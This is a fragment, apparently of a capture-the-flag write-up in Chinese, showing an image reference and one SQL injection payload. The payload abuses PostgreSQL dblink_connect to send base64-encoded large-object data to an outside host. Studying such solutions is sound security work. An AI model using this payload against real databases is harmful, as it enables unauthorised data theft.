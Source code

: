 ![image-20210202004121305](cqb2021/image-20210202004121305.png)

当然看不清可以base64读取自己转

```
./?f=gyy' union select 1,(SELECT dblink_connect('host=IP user=postgres password=postgres dbname=@'||(SELECT replace(substring(encode(lo_get(16440),'base64'),1,900),chr(10),'')))) --
```
